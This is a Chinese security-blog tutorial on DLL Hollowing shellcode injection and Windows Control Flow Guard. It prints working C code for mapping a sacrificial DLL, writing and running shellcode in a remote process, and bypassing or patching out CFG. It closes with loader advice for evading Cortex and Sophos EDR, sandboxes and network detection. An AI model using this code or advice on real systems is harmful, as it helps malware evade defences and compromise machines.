










# DLL Hollowing攻击与CFG保护机制解析-先知社区

> **来源**: https://xz.aliyun.com/news/18861  
> **文章ID**: 18861

---

这篇文章是讲解DLL Hollowing和CFG保护机制

DLL Hollowing是一种内存注入技术，核心思路是借助未被加载的DLL内存映射空间，通过NtMapViewOfSection获取DLL映射基址将 payload写入未被加载的dll里。其本质是 “复用” 合法 DLL 的内存属性标记为 `Image`，与系统加载的正常 DLL 内存特征一致，规避传统内存注入（ （OpenProcess() VirtualAllocEx()WriteProcessMemory()CreateRemoteThread()）的检测风险

CFG 主要是针对间接调用的保护机制。在程序中，间接调用在编译时期目标地址不能确定，运行时才可知晓，攻击者就可能利用这点通过缓冲区溢出等漏洞来篡改函数指针，让程序跳转至恶意代码地址执行攻击代码。而 CFG 实现基于这样的理念，即间接调用的目标必须是一个有效函数的起始地址，它会严格限制间接调用指令可执行的位置 。

流程：间接调用 → CFG检查函数 → 验证目标地址 → 允许/拒绝执行

<https://learn.microsoft.com/en-us/windows/win32/secbp/control-flow-guard>

​

以下代码是查找未被加载的dll，再system32下寻找

```
BOOL findSacrificialDll(HANDLE hProcess, wchar_t* resultPath, size_t pathBufferSize, size_t requiredSize)
{
    // 1. 安全检查：确保传入的路径缓冲区足够大
    if (pathBufferSize < MAX_PATH * 2) return FALSE;

    wchar_t searchPath[MAX_PATH * 2];
    WIN32_FIND_DATAW findData;
    BOOL found = FALSE;

    // 2. 获取系统目录路径（如 C:\Windows\System32）
    GetSystemDirectoryW(searchPath, MAX_PATH * 2);
    // 构造搜索路径（如 C:\Windows\System32\*.dll）
    wcscat_s(searchPath, MAX_PATH * 2, L"\*.dll");

    // 3. 开始查找第一个DLL文件
    HANDLE hFind = FindFirstFileW(searchPath, &findData);
    if (hFind == INVALID_HANDLE_VALUE) return FALSE;

    // 4. 遍历所有DLL文件
    do {
        // 检查条件一：这个DLL是否尚未被目标进程加载？
        if (!isDllLoaded(hProcess, findData.cFileName)) {

            // 构建完整的DLL文件路径
            GetSystemDirectoryW(resultPath, MAX_PATH * 2);
            wcscat_s(resultPath, MAX_PATH * 2, L"\");
            wcscat_s(resultPath, MAX_PATH * 2, findData.cFileName);

            // 检查条件二：这个DLL的文件大小是否足够大？
            size_t dllSize = getSizeOfImage(resultPath);
            if (requiredSize < dllSize) {
                found = TRUE; // 找到符合条件的DLL！
                break; // 立即停止搜索
            }
        }
    } while (FindNextFileW(hFind, &findData)); // 继续查找下一个文件

    // 5. 清理并返回结果
    FindClose(hFind);
    return found;
}
```

将dll文件加载到指定的程序中，最后需要将权限设为PAGE\_READWRITE

```
// 1. 打开DLL文件
HANDLE hFile = CreateFileW(
    dll_path,          // DLL文件路径
    GENERIC_READ,      // 只读方式打开
    0, NULL,
    OPEN_EXISTING,     // 打开已存在的文件
    FILE_ATTRIBUTE_NORMAL,
    NULL
);

// 2. 基于文件创建内存节区（Section）
HANDLE hSection;
NTSTATUS status = NtCreateSection(
    &hSection,         // 输出：节区句柄
    SECTION_ALL_ACCESS, // 所有权限
    NULL,
    0,
    PAGE_READONLY,     // 初始内存保护
    SEC_IMAGE,         // 关键！这是一个PE映像文件
    hFile              // 源文件
);

// 检查是否成功
if (status != SUCCESS) {
    CloseHandle(hFile);
    return NULL;
}

// 3. 将节区映射到目标进程的内存空间
PVOID mapped_address = NULL;
status = NtMapViewOfSection(
    hSection,          // 要映射的节区
    target_process,    // 目标进程句柄
    &mapped_address,   // 输出：映射后的内存地址
    NULL, NULL, NULL,
    &view_size,        // 输出：映射视图的大小
    ViewShare,         // 继承方式
    NULL,
    PAGE_READWRITE     // 映射后的内存保护权限（可读写）
);

// 4. 清理：关闭文件句柄（节区仍然存在且已映射）
CloseHandle(hFile);

// 返回映射后的内存地址
return mapped_address;
```

注入shellcode

```
// 修改内存权限为可读写(RW)
status = NtProtectVirtualMemory(hProcess,
	(PVOID*)&mapped,
	&len,
	PAGE_READWRITE,
	&oldProtect);

if (!NT_SUCCESS(status))
{
	// 错误处理
	printf("错误: NtProtectVirtualMemory (RW) = 0x%x
", status);
	return NULL;
}

printf("从地址 0x%p 开始的 %d 字节内存设置为可读写(RW)
", len, mapped);

// 写入内存
printf("正在写入 %d 字节的shellcode
", size);
// 如果是注入到本地进程，可以使用memcpy
// memcpy(mapped, shellcode, size)
status = NtWriteVirtualMemory(
	hProcess,
	mapped,
	shellcode,
	size,
	&bytesWritten);

printf("已写入 %d 字节!
", bytesWritten);
if (!NT_SUCCESS(status) || bytesWritten < size)
{
	// 错误处理
	printf("错误: NtWriteVirtualMemory = 0x%x
", status);
	return NULL;
}

/* 修改权限以允许payload运行 */

// 修改保护权限为可执行读取(RX)
status = NtProtectVirtualMemory(hProcess,
	(PVOID*)&mapped,
	&len,
	PAGE_EXECUTE_READ,
	&oldProtect);

if (!NT_SUCCESS(status))
{
	// 错误处理
	printf("错误: NtProtectVirtualMemory (RX) = 0x%x
", status);
	return NULL;
}

if (CloseHandle(hSection) == 0) {
	printf("CloseHandle: %lu
", GetLastError());
}

printf("Shellcode 位于地址 0x%p
", mapped);

// 创建线程
status = NtCreateThreadEx(
	&hThread,       // 返回线程句柄
	GENERIC_ALL,    // 访问权限
	0,
	hProcess,       // 进程句柄
	(LPTHREAD_START_ROUTINE)mapped, // 线程起始地址
	NULL,    // 线程用户定义参数
	FALSE,          // 立即启动（不创建挂起状态）
	0,
	0,
	0,
	NULL
);
if (!NT_SUCCESS(status))
{
	// 错误处理
	printf("错误: NtCreateThreadEx = 0x%x
", status);
	return NULL;
}
```

# 屏幕截图 2025-09-12 110357.png

我们再来看看 Windows 系统为防范这类内存注入攻击，所采用的 CFG 保护机制是如何工作

使用windbg找因cfg让程序崩溃的原因



`KERNEL32！BaseThreadInitThunk` 调用 `KERNEL32!_guard_dispatch_icall_fptr`

最终， `ntdll!LdrControlFlowGuardEnforced` 被调用



在CFG触发后程序会崩溃重启

c0000409 - 这是CFG保护的标准异常代码

int 29h - 这是Windows的快速失败指令，用于立即终止程序

​

我们可以通过vs来启用控制流保护CFG

还可以使用vs命令行dumpbin来查看程序有没有CFG








通过修改注册表禁用CFG

计算机\HKEY\_LOCAL\_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options

创建名为MitigationOptions类型为 QWORD，来禁用CFG



### 通过作线程上下文绕过 CFG

在新创建的线程实际运行之前覆盖线程上下文。创建一个处于挂起状态的线程，并覆盖更改 RIP 寄存器值的线程上下文，以强制线程直接执行我们的 shell 代码而不执行 CFG 检查。

​

```
int ThreadCTX(HANDLE hThread, LPVOID pRemoteCode) {
   CONTEXT ctx;

   // 通过覆盖目标进程线程中的RIP寄存器来执行远程代码
   ctx.ContextFlags = CONTEXT_FULL;
   GThreadContext(hThread, &ctx);
   ctx.Rip = (DWORD_PTR)pRemoteCode;  // 设置指令指针指向远程代码地址
   SThreadContext(hThread, &ctx);

   return ResumeThread(hThread);  // 恢复线程执行
}
```

这样做允许我们绕过所有 CFG 健全性检查，因为线程不会从 CFG 检查函数启动，而是会强制从我们的 shellcode 地址开始。它还可以将任意模块加载到远程进程中，并从任何地址开始执行代码。

使用 LoadLibrary加载牺牲 DLL

​



shellcode使用的是msf生成的启动calc





### 通过修补目标进程来禁用 CFG

```
// 设置补丁字节: stc ; nop ; nop ; nop
char patch_bytes[] = { 0xf9, 0x90, 0x90, 0x90 };

// 获取 ntdll!LdrpDispatchUserCallTarget 地址
// pLdrpDispatchUserCallTarget = GetProcAddress(GetModuleHandleA("ntdll"), "LdrpDispatchUserCallTarget");
// 注意：无法使用 GetProcAddress() 获取 ntdll!LdrpDispatchUserCallTarget
// 我们在 ntdll!RtlRetrieveNtUserPfn 附近进行搜索
// 在 Windows 10 1909 中：ntdll!RtlRetrieveNtUserPfn + 0x4f0 = ntdll!LdrpDispatchUserCallTarget
pRtlRetrieveNtUserPfn = GetProcAddress(GetModuleHandleA("ntdll"), "RtlRetrieveNtUserPfn");

if (pRtlRetrieveNtUserPfn == NULL)
{
	printf("未找到 RtlRetrieveNtUserPfn！
");
	return -1;
}

printf("RtlRetrieveNtUserPfn 地址: 0x%p
", pRtlRetrieveNtUserPfn);
printf("正在搜索 ntdll!LdrpDispatchUserCallTarget
");

// 用于查找 ntdll!LdrpDispatchUserCallTarget 的特征码
char pattern[] = { 0x4C, 0x8B, 0x1D, 0xE9, 0xD7, 0x0E, 0x00, 0x4C, 0x8B, 0xD0 };

// Windows 10 1909 特定偏移
// pRtlRetrieveNtUserPfn = (char*)pRtlRetrieveNtUserPfn + 0x4f0;

// 搜索范围 0xfff 应该足够找到特征码
pLdrpDispatchUserCallTarget = getPattern(pattern, sizeof(pattern), 0, pRtlRetrieveNtUserPfn, 0xfff);

if (pLdrpDispatchUserCallTarget == NULL)
{
	printf("未找到 LdrpDispatchUserCallTarget！
");
	return -1;
}

printf("正在定位需要修补的指令...
");

// 需要覆盖的指令：`bt r11, r10`
char instr_to_patch[] = { 0x4D, 0x0F, 0xA3, 0xD3 };

// 指令偏移量为 0x1d (29)
// check_address = (BYTE*)pLdrpDispatchUserCallTarget + 0x1d;

// 使用特征码搜索定位准确指令地址
check_address = getPattern(instr_to_patch, sizeof(instr_to_patch), 0, pLdrpDispatchUserCallTarget, 0xfff);

printf("正在设置地址 0x%p 为可读写权限
", check_address);

PVOID text = check_address;
SIZE_T text_size = sizeof(patch_bytes);

// 设置内存保护为可读写
// 注意：当线程尝试在执行时访问该内存时可能会引发崩溃
status = NtProtectVirtualMemory(hProcess, &text, &text_size, PAGE_READWRITE, &oldProtect);

if (status != 0x00)
{
	//printf("NtProtectVirtualMemory 错误: 0x%x", status);
	return -1;
}

// 应用补丁
WriteProcessMemory(hProcess, check_address, patch_bytes, size, &bytesWritten);
//memcpy(check_address, patch_bytes, size);

if (bytesWritten != size)
{
	//printf("WriteProcessMemory 执行错误！
");
	return -1;
}

// 恢复内存保护权限
status = NtProtectVirtualMemory(hProcess, &text, &text_size, oldProtect, &oldProtect);
if (status != 0x00)
{
	printf("NtProtectVirtualMemory 错误: 0x%x", status);
	return -1;
}

printf("内存权限已恢复为可执行
");
printf("CFG 保护已成功修补！
");
printf("已在地址 0x%p 写入 %d 字节
", check_address, bytesWritten);

return 0;
```

详细教程可看这篇文章<https://www.secforce.com/blog/dll-hollowing-a-deep-dive-into-a-stealthier-memory-allocation-variant/>

​

加载器一些技术的分析

• 模块踩踏（Module Stomping）：通过合法模块内存空间加载Shellcode，有效规避模块黑名单，实施良好。

Module Stomping和DLL Hollowing有些相似

|  |  |  |
| --- | --- | --- |
| **比较维度** | **DLL Hollowing** | **Module Stomping** |
| 核心原理 | 在目标进程中加载合法的未加载 DLL，利用 NtCreateSection 和 NtMapViewOfSection 等函数，将恶意代码写入 DLL 的内存空间，复用合法 DLL 的内存属性（标记为 Image），使其与系统正常加载的 DLL 内存特征一致，从而规避检测。执行时，修改内存保护权限为可执行，让程序执行恶意代码 | 加载一个合法的已加载模块（如 user32.dll ），使用 VirtualProtect 将其.text 节或入口点变为可写，直接覆盖入口为 shellcode，最后通过 CreateThread 执行入口函数 |
| 模块来源 | 选择未加载到目标进程中的 DLL 文件。一般会在系统目录（如 system32）下查找未被目标进程加载且文件大小足够存储恶意代码的 DLL，像在 Windows 系统中，从众多系统 DLL 中挑选合适的 “牺牲 DLL” | 使用已加载到目标进程中的模块，通常选择一些系统中常用的模块，比如 kernel32.dll、user32.dll 等 |
| 修改方式 | 以镜像注入的方式将恶意代码写入 DLL 的.text 节。在不改变 DLL 文件本身的情况下，通过内存映射操作，将恶意代码注入到 DLL 对应的内存区域 | 直接覆盖模块的入口点或导出函数。这种修改方式会直接改变模块原本的执行流程，用恶意的 shellcode 替换掉原有的入口代码 |
| 文件修改 | 操作主要在内存层面，文件本身可保持完整。如果采用事务方式，还能在一定程度上保证操作的原子性和完整性；也可以选择仅在内存中完成注入，不涉及文件修改 | 直接在内存中修改模块内容，不涉及对磁盘文件的修改，但这种修改会导致内存中的模块与磁盘上的原始文件不一致 |
| 隐蔽性 | 隐蔽性较强，因为使用的是未加载的 DLL，且文件保持完整，不易被发现。其内存操作模拟正常的 DLL 加载过程，从内存特征上难以区分是正常加载还是恶意注入 | 相对较弱，由于直接覆盖入口点，容易导致入口变化被检测到。内存与磁盘文件不一致的情况，也容易被高级 EDR 通过对比校验和发现异常 |
| 执行方式 | 通过将恶意代码所在的内存区域映射到目标进程空间，然后修改内存权限为可执行，实现映射执行。在一些场景下，还会配合创建线程来启动恶意代码的执行 | 利用 CreateThread 创建远程线程来执行入口函数，直接将 shellcode 加载到目标模块的可执行内存区域并执行 |
| 检测难度 | 传统检测手段难以识别，但 EDR 可通过监测内存映射、异常的 DLL 加载行为、内存权限变化等进行检测 | 因修改合法 DLL 代码段，导致内存与磁盘文件不一致，易被高级 EDR 检测；修改内存权限操作也可能被捕获 |
| 适用场景 | 适用于需要长期驻留且隐蔽性要求高的场景，例如作为一种补丁分发和更新方案，安全团队利用热补丁修复无需重启的漏洞，红队利用其进行长期潜伏攻击 | 适合需要快速注入和执行代码的场景，如在某些应急攻击场景中，需要迅速在目标进程中执行恶意代码 |
| 实现复杂度 | 涉及内存映射、事务控制等操作，实现过程相对复杂，需要对系统内存管理机制和相关 API 有深入理解，如使用 NtCreateSection、NtMapViewOfSection 等底层函数 | 实现相对简单直接，主要操作是修改内存保护属性和覆盖代码段，但也需要掌握模块加载、内存权限修改和线程创建等相关技术 |

本地线程劫持：利用合法进程线程上下文执行代码，绕过基于进程创建的检测，实施良好。  
自定义 Havoc C2 配置：通过非标准通信模式（如自定义证书、协议混淆）降低网络特征匹配概率，配置合理。  
文件膨胀绕过沙箱：增加文件体积至沙箱分析阈值以上，延迟或跳过动态分析，策略有效。

ETW 补丁：评估后确认当前威胁环境（如Cortex）不依赖ETW检测，该操作冗余且增加暴露风险，不建议。  
AES 解密实现：依赖Windows API（如CryptDecrypt）可能触发内存扫描或用户态钩子，建议替换为自定义或静态链接的加密库（如mbedTLS）以规避检测。对于加解密可以添加在前后使用其他编码或者脏数据，尽量别用Windows 加密 API。  
ntdll 钩子检测与恢复：针对Sophos等EDR的钩子机制有效，但Cortex主要依赖内存与行为分析，可保留但需配合其他绕过技术（如直接系统调用）。
